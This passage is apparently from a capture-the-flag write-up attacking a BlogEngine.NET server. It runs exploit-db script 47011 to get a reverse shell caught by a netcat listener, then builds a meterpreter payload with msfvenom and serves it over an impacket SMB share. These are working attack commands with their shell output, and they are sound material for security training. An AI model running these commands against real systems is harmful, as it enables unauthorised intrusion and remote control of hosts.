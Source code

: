 ```
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                  | https://www.exploit-db.com/exploits/47035
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                  | https://www.exploit-db.com/exploits/47011
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                               | https://www.exploit-db.com/exploits/47014
------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

A few of these looked extremely interesting, especially [47011](https://www.exploit-db.com/exploits/47011) which included a python script that was prepared with a vulnerable theme that executed a reverse shell. I pulled this script down and fixed a small error where a `=================================` string was left uncommented.

I started up a netcat listener in a new window and attempted to trigger the RCE.

```
root@kali:~/ctf/exploits# python 47011.py -t $ATTACKTARGET -u admin -p 1qaz2wsx -l 10.10.7.59:443
```

```
root@kali:~# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.7.59] from (UNKNOWN) [10.10.167.66] 49241
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

While this gave me a shell on the host, my goal became to escalate this shell to something a bit stabler. Preferably a meterpreter shell. With this in mind I decided to craft a new exe reverse shell that I could catch with meterpreter. In conjunction, I started a listener in msfconsole on port 4444

```
root@kali:~/ctf/transfer# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.7.59 LPORT=4444 -f exe -o hello.exe
```

With an exploit in hand, I decided to attempt to transfer it using impacket's smb server.

```
root@kali:~/ctf/transfer# impacket-smbserver -smb2support TX $PWD
```

```
dir \\10.10.7.59\TX\
c:\windows\system32\inetsrv>dir \\10.10.7.59\TX\
 Volume in drive \\10.10.7.59\TX has no label.
 Volume Serial Number is ABCD-EFAA
 Directory of \\10.10.7.59\TX
11/18/2020  02:38 PM            73,802 hello.exe
               1 File(s)         73,802 bytes
               0 Dir(s)  18,391,148,419,302,293,504 bytes free
c:\windows\system32\inetsrv>pwd
cd c:\windows\Temp\
c:\windows\system32\inetsrv>cd c:\windows\Temp\
dir
c:\Windows\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Windows\Temp
11/18/2020  02:44 PM    <DIR>          .
11/18/2020  02:44 PM    <DIR>          ..
08/06/2019  01:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
08/06/2019  01:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
08/06/2019  01:13 PM             1,206 cleanup.txt
```